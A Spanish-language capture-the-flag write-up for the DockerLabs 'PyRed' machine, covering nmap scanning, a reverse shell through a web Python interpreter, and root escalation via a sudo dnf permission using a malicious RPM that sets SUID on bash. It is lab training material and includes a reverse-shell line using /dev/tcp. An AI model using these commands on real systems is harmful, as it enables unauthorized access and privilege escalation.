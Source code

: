 
# Writeup de la máquina PyRed realizado por Daniel Damota

<p align="center">
  <img src="https://github.com/DanielDamota04/Writeups_CTF/blob/main/Dockerlabs/Pyred/Imagenes/0.png" alt="pyred"/>
</p>

## Información General

- **Plataforma**: [DockerLabs](https://dockerlabs.es/)
- **Nivel de Dificultad**: Medio
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 02/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Técnicas utilizadas

- Abusar de un intérprete de Python en una página web para conseguir acceso no autorizado

- Abusar de un privilegio de **Sudoers** (Dandified Yum) con **GTFOBins** (Escalada de privilegios a root)

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL que es igual a 64, reconocemos que es una máquina Linux:

```
ping -c 1 <IP>
```

![Ping](Imagenes/1.png)

Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```

![nmap1](Imagenes/2.png)

Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```

![extractPorts](Imagenes/3.png)

Ahora realizamos un escaneo mas exhaustivo de los puertos:

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```

![nmap2](Imagenes/4.png)


## 2. Explotación

Según vemos en el escaneo, nos encontramos ante un servicio http, por lo cual vamos a acceder a dicho servicio a través del navegador:

![http](Imagenes/5.png)

Si realizamos comprobaciones, veremos que estamos ante un intérprete de código python en web, por lo que podemos probar a enviarnos una shell interactiva con python:

```
import os

os.system("bash -i &> /dev/tcp/<IP>/<PUERTO> 0>&1")
```

![http](Imagenes/6.png)

Nos ponemos en escucha por el puerto 443 usando netcat:

```
netcat -lvnp 443
```

![http](Imagenes/7.png)

Comprobamos que conseguimos el acceso:

![http](Imagenes/8.png)


## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en el usuario root mediante una escalada de privilegios. Como primera enumeración, vamos a ver que permisos tenemos asignados a nivel de sudoers:

![Sudoers](Imagenes/9.png)

**DNF** (Dandified YUM) es un gestor de paquetes utilizado en distribuciones Linux basadas en **Red Hat** como **Fedora**, **RHEL** y **CentOS**. Sus comandos permiten instalar, actualizar, eliminar y buscar paquetes, y se gestiona de manera más eficiente los repositorios y las configuraciones personalizadas en comparación con YUM.

Buscamos en GTFObins si ese permiso asignado puede conllevar una escalada de privilegios:

![Info_Escalada](Imagenes/10.png)

Viendo que podemos conseguir la escalada por este permiso, procedemos a realizar los pasos que indica GTFObins:

![Pasos_Escalada](Imagenes/11.png)

En la máquina atacante creamos un archivo .rpm malicioso que de permiso SUID a la bash:

![Escalada1](Imagenes/12.png)

Ahora subimos el paquete malicioso a la máquina víctima mediante http:

```
python -m http.server 80
```

![Escalada2](Imagenes/13.png)

Desde la máquina víctima obtenemos el recurso con curl (hay que asegurarse de estar en un directorio donde tengáis permisos de escritura):

![Escalada3](Imagenes/14.png)

Realizamos el último paso de GTFObins desde la máquina víctima:

![Escalada4](Imagenes/15.png)

Una vez completado comprobamos los permisos de la bash y vemos que se ha aplicado el cambio de permisos:

![Escalada5](Imagenes/16.png)

Ahora nos enviamos una shell privilegiada y accedemos como root:

![Root](Imagenes/17.png)



